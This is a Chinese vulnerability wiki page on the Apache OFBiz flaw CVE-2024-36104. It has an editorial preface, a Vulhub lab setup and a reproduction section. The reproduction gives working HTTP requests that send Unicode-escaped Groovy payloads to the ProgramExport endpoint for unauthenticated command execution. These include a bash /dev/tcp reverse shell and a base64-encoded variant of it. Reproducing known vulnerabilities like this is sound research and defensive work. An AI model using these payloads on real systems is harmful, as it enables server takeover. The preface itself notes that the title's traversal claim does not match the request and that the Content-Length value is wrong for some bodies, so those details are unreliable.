




# Apache OFBiz 目录遍历致代码执行漏洞 CVE-2024-36104

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：演示18.12.09，匿名controller与ProgramExport视图组合；具体补丁阶段需区分
- 证据范围：标题描述分号/%2e遍历，但实际请求完全无遍历序列，为之后38856所突出的方法；同根因旧版本也可适用，不能按请求一概否定该版本可受影响。

### 已有来源支持的更正

- 研究者明确无遍历forgotPassword/ProgramExport为38856方法，也适用于前两项受影响系统；三者根因相同但补丁阶段不同

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 应按补丁阶段记录36104的特殊路径方法与38856的无遍历方法，避免同一PoC重复挂多编号且缺解释
- 不同长度body复用Content-Length342，至少长payload明显不符
- 反弹127.0.0.1需要说明是受害机本地监听，通常不能代表攻击者地址
- 暴露5005调试端口非漏洞必要条件，部署示例应限定实验

### 核验来源

- https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache OFBiz 是一个电子商务平台，用于构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类应用系统。

Apache OFBiz 版本 18.12.14 之前版本中存在路径遍历漏洞，由于对 HTTP 请求 URL 中的特殊字符（如 `；、%2e`）限制不当，攻击者可构造恶意请求绕过验证并利用相关接口功能导致远程代码执行。

参考链接：

- https://ofbiz.apache.org/security.html
- https://issues.apache.org/jira/browse/OFBIZ-13092
- https://github.com/apache/ofbiz-framework/commit/d33ce31012

## 漏洞影响

```
Apache OFBiz < 18.12.14
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 环境搭建

Vulhub 启动一个 18.12.09 版本 Apache OFBiz。

docker-compose.yml：

```
version: '2'
services:
 web:
   image: vulhub/ofbiz:18.12.09
   ports:
    - "8443:8443"
    - "5005:5005"
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain xx.xx.xx.xx not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```




## 漏洞复现

Unicode 编码：

```shell
# CVE-2024-36104 Payload
throw new Exception('id'.execute().text);

# Escape Unicode Characters
\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0069\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```




poc：

```http
POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Length: 342
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: */*

groovyProgram=\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0069\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```




反弹 shell：

```shell
/bin/bash -i >& /dev/tcp/127.0.0.1/8888 0>&1

# java.lang.Runtime.exec() Payload
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}

# CVE-2024-36104 Payload
throw new Exception('bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}'.execute().text);

# Escape Unicode Characters
\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0062\u0061\u0073\u0068\u0020\u002D\u0063\u0020\u007B\u0065\u0063\u0068\u006F\u002C\u004C\u0032\u004A\u0070\u0062\u0069\u0039\u0069\u0059\u0058\u004E\u006F\u0049\u0043\u0031\u0070\u0049\u0044\u0034\u006D\u0049\u0043\u0039\u006B\u005A\u0058\u0059\u0076\u0064\u0047\u004E\u0077\u004C\u007A\u0045\u0079\u004E\u0079\u0034\u0077\u004C\u006A\u0041\u0075\u004D\u0053\u0038\u0034\u004F\u0044\u0067\u0034\u0049\u0044\u0041\u002B\u004A\u006A\u0045\u003D\u007D\u007C\u007B\u0062\u0061\u0073\u0065\u0036\u0034\u002C\u002D\u0064\u007D\u007C\u007B\u0062\u0061\u0073\u0068\u002C\u002D\u0069\u007D\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```

```http
POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Length: 342
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: */*

groovyProgram=\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0062\u0061\u0073\u0068\u0020\u002D\u0063\u0020\u007B\u0065\u0063\u0068\u006F\u002C\u004C\u0032\u004A\u0070\u0062\u0069\u0039\u0069\u0059\u0058\u004E\u006F\u0049\u0043\u0031\u0070\u0049\u0044\u0034\u006D\u0049\u0043\u0039\u006B\u005A\u0058\u0059\u0076\u0064\u0047\u004E\u0077\u004C\u007A\u0045\u0079\u004E\u0079\u0034\u0077\u004C\u006A\u0041\u0075\u004D\u0053\u0038\u0034\u004F\u0044\u0067\u0034\u0049\u0044\u0041\u002B\u004A\u006A\u0045\u003D\u007D\u007C\u007B\u0062\u0061\u0073\u0065\u0036\u0034\u002C\u002D\u0064\u007D\u007C\u007B\u0062\u0061\u0073\u0068\u002C\u002D\u0069\u007D\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```




## 漏洞修复

目前该漏洞已经修复，受影响用户可升级到 Apache OFBiz 18.12.14 或更高版本。下载链接：

- https://ofbiz.apache.org/download.html


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
